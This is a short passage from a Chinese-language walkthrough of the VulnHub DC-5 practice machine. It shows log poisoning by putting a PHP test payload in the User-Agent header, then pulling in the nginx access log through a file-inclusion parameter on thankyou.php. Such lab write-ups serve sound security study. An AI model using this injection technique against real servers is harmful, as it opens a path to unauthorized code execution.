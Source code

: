 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC5/7.png)

运气不错,就拿 `/var/log/nginx/access.log` 开刀了

访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php phpinfo() ?>` 测试

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC5/8.png)

再次访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log`
